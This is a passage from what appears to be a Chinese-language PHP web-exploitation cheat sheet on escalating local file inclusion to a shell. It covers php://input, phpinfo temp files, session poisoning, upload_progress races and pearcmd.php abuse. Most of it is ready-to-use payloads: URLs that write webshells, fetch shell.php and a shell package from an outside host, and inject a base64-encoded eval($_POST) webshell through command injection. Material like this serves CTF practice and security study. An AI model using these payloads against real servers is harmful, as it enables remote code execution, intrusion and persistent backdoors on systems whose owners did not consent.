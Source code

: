 - `?page=php://input`
    - post data: `<?php system("net user"); ?>`
    - 需要有開啟 `url_allow_include`，5.4.0 直接廢除

## phpinfo

- 對 server 以 form-data 上傳文件，會產生 tmp 檔
- 利用 phpinfo 得到 tmp 檔路徑和名稱
- LFI Get shell
- 限制
    - Ubuntu 17 後，預設開啟 `PrivateTmp`，無法利用

## php session

- Session 一般存在 `sess_{PHPSESSID}` 中
- 可以透過修改 Cookie 再 LFI 拿 shell
- 以下為常見存放路徑
    - /var/tmp/
    - /tmp/
    - /var/lib/php5/
    - /var/lib/php/
    - C:\windows\temp\sess_<PHPSESSID>
        - windows
- `session.upload_progress`
    - PHP 預設開啟
    - 用來監控上傳檔案進度
    - 當 `session.upload_progress.enabled` 開啟，可以 POST 在 `$_SESSION` 中添加資料 (`sess_{PHPSESSID}`)
    - 配合 LFI 可以 getshell
    - `session.upload_progress.cleanup=on` 時，可以透過 Race condition
    - 上傳 zip
        - 開頭會有 `upload_progress_`，結尾也有多餘資料，導致上傳 zip 正常狀況無法解析
        - 利用 zip 格式鬆散特性，刪除前 16 bytes 或是手動修正 EOCD 和 CDH 的 offset 後上傳，可以讓 php 正常解析 zip
    - Example
        - [HITCON CTF 2018 - One Line PHP Challenge](https://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/)
        - [0CTF 2021 Qual - 1linephp](https://github.com/w181496/CTF/tree/master/0ctf2021_qual/1linephp)

## PEAR

- 條件
    - 安裝 pear (pearcmd.php)
    - 有開 `register_argc_argv`
- 寫檔
    - 法一: `/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php`
    - 法二: `/?+-c+/tmp/shell.php+-d+man_dir=<?phpinfo();?>/*+-s+list&file=/usr/local/lib/php/pearcmd.php`
    - 法三: `/?+download+https://kaibro.tw/shell.php+&fike=/usr/local/lib/php/pearcmd.php`
    - 法四: `/?+channel-discover+kaibro.tw/302.php?&file=/usr/local/lib/php/pearcmd.php`
        - 302.php 會跳轉到 test.php 做下載
- 安裝 package
    - `/?+install+--force+--installroot+/tmp/wtf+http://kaibro.tw/KaibroShell.tgz+?&file=/usr/local/lib/php/pearcmd.php`
- Command Injection
    - `/?+install+-R+&file=/usr/local/lib/php/pearcmd.php&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&file=/usr/local/lib/php/pearcmd.php&`
    - `/?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&file=/usr/local/lib/php/pearcmd.php&`
- Command Injection 2
    - 不用寫檔、需要有 phpt file